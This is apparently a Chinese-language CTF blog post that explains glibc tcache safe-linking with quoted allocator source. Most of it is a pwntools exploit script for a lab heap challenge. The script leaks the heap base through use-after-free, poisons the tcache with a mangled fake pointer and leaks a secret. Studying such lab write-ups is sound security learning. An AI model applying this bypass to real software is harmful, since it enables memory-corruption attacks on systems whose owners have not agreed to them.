 ```yaml
---
layout: post
tags: [pwn]
title: "glibc 2.32+ tcache safe-linking"
author: wsxk
date: 2025-3-10
comments: true
---
```


- [1. glibc 2.32 safe-linking](#1-glibc-232-safe-linking)
  - [1.2 safe-linking 原理](#12-safe-linking-原理)
    - [1.2.1 malloc](#121-malloc)
    - [1.2.2 free](#122-free)
    - [1.2.3 safe-linking 绕过](#123-safe-linking-绕过)
    - [1.2.4 safe-linking 总结](#124-safe-linking-总结)
- [2. glibc 2.35 safe-linking 绕过](#2-glibc-235-safe-linking-绕过)
  - [2.1 利用malloc/free机制修改某个区间的值,并利用tcachebin机制泄露值](#21-利用mallocfree机制修改某个区间的值并利用tcachebin机制泄露值)


# 1. glibc 2.32 safe-linking<br>
safe-linking是 glibc 2.32 版本后 针对 tcache 添加的安全机制。<br>
**其主要的核心思路是修改tcachebin中 free_chunk->next的值，使得tcache poison失效**<br>
## 1.2 safe-linking 原理<br>
safe-linking主要靠异或实现，主要依赖以下两个函数:<br>
```c
#define PROTECT_PTR(pos, ptr)
  ((__typeof (ptr)) ((((size_t) pos) >> 12) ^ ((size_t) ptr)))

#define REVEAL_PTR(ptr)  PROTECT_PTR (&ptr, ptr)
```
这两个函数分别在free和malloc函数中被引用<br>

### 1.2.1 malloc<br>
```c
static __always_inline void *
tcache_get (size_t tc_idx)
{
  tcache_entry *e = tcache->entries[tc_idx];
  if (__glibc_unlikely (!aligned_OK (e))) //检查对齐
    malloc_printerr ("malloc(): unaligned tcache chunk detected");
  tcache->entries[tc_idx] = REVEAL_PTR (e->next);
  --(tcache->counts[tc_idx]);
  e->key = 0;
  return (void *) e;
}

```
### 1.2.2 free<br>
```c
static __always_inline void
tcache_put (mchunkptr chunk, size_t tc_idx)
{
  tcache_entry *e = (tcache_entry *) chunk2mem (chunk);

  e->key = tcache_key;

  e->next = PROTECT_PTR (&e->next, tcache->entries[tc_idx]);
  tcache->entries[tc_idx] = e;
  ++(tcache->counts[tc_idx]);
}
```

### 1.2.3 safe-linking 绕过<br>
在safe-linking加持下，要想获得tcache中下一个堆块的实际地址，需要知道`pos和ptr`两个值,**即当前堆块的mem地址，和当前堆块的mem地址的值，得知后异或即可**<br>
我们有没有办法得知这两个值呢？<br>
`REVEAL_PTR`函数实现给了我们答案:<br>
```
只需要知道tcachebin中的一个chunk的堆地址，和被混淆的值，我们就能获得下一个chunk的地址指向哪里。
```

### 1.2.4 safe-linking 总结<br>
safe-linking给我们带来了如下结果:<br>
```
1. Alignment checks often prevent directly accessing values
即tcache_get中的对齐检查。

2. Most heap exploits now require a heap pointer leak
即泄露tcache地址，才能继续利用

3. Massaging the heap can get complicated tracking values
追踪调试变得困难
```

# 2. glibc 2.35 safe-linking 绕过<br>
## 2.1 利用malloc/free机制修改某个区间的值,并利用tcachebin机制泄露值<br>
核心原理:<br>
**在malloc一个tcache mem后，mem->key = 0;**<br>
**从tcachebin取一个tcache mem后，tcache->entries[tc_idx]=REVEAL_PTR(mem->next)**<br>

```python
from pwn import *
context.log_level = 'debug'
context.arch = 'amd64'
context.os = 'linux'

binary_path = './babyheap_level16.0'
libc_path = './libc.so.6'

p = process(binary_path)

def malloc(idx,size):
    p.recvuntil(b"[*] Function (malloc/free/puts/scanf/send_flag/quit): ")
    p.sendline(b"malloc")
    p.recvuntil(b"Index: ")
    p.sendline(str(idx).encode())
    p.recvuntil(b"Size: ")
    p.sendline(str(size).encode())

def free(idx):
    p.recvuntil(b"[*] Function (malloc/free/puts/scanf/send_flag/quit): ")
    p.sendline(b"free")
    p.recvuntil(b"Index: ")
    p.sendline(str(idx).encode())

def puts(idx):
    p.recvuntil(b"[*] Function (malloc/free/puts/scanf/send_flag/quit): ")
    p.sendline(b"puts")
    p.recvuntil(b"Index: ")
    p.sendline(str(idx).encode())

def scanf(idx,content):
    p.recvuntil(b"[*] Function (malloc/free/puts/scanf/send_flag/quit): ")
    p.sendline(b"scanf")
    p.recvuntil(b"Index: ")
    p.sendline(str(idx).encode())
    sleep(0.1)
    p.sendline(content)

def send_flag(secret):
    p.recvuntil(b"[*] Function (malloc/free/puts/scanf/send_flag/quit): ")
    p.sendline(b"send_flag")
    p.recvuntil(b"Secret: ")
    p.sendline(secret)

# leak the heap_base
malloc(0,0x20)
free(0)
puts(0)
p.recvuntil(b"Data: ")
mem_value = u64(p.recvline().strip(b"\n").ljust(8,b"\x00"))
heap_base = mem_value << 12
log.success(f"mem_value: {hex(mem_value)}")
log.success(f"heap_base: {hex(heap_base)}")

# tcache poison 
malloc(0,0x20)
malloc(1,0x20)
free(0)
free(1) # 1 > 0
# bypass safe-linking
fake_addr = 0x433AD0
safe_linking_fake_addr = (heap_base>>12) ^ fake_addr
scanf(1,p64(safe_linking_fake_addr))
malloc(2,0x20)
malloc(3,0x20) # *(fake_addr + 8) = 0 ; and then the tcache->entries[tc_idx] = REVEAL_PTR(fake_addr->next)  = (fake_addr>>12) ^ fake_addr->next

# leak value by uaf
malloc(4,0x20)
free(4)  # 4->next = PROTECT_PTR(&4->next, tcache->entries[tc_idx]) =  (4_addr >> 12)^ tcache->entries[tc_idx]
puts(4)
p.recvuntil(b"Data: ")
secret_mangled = u64(p.recv(8))
log.success(f"secret_mangled: {hex(secret_mangled)}")
secret_demangled1 = (heap_base>>12) ^ secret_mangled
log.success(f"secret_demangled1: {hex(secret_demangled1)}")
secret_demangled2 = (fake_addr>>12) ^ secret_demangled1
log.success(f"secret_demangled2: {hex(secret_demangled2)}")

send_flag(p64(secret_demangled2)+b"\x00"*8)

p.interactive()
```

<!-- Google tag (gtag.js) -->
<script async src="https://www.googletagmanager.com/gtag/js?id=G-C22S5YSYL7"></script>
<script>
  window.dataLayer = window.dataLayer || [];
  function gtag(){dataLayer.push(arguments);}
  gtag('js', new Date());

  gtag('config', 'G-C22S5YSYL7');
</script>


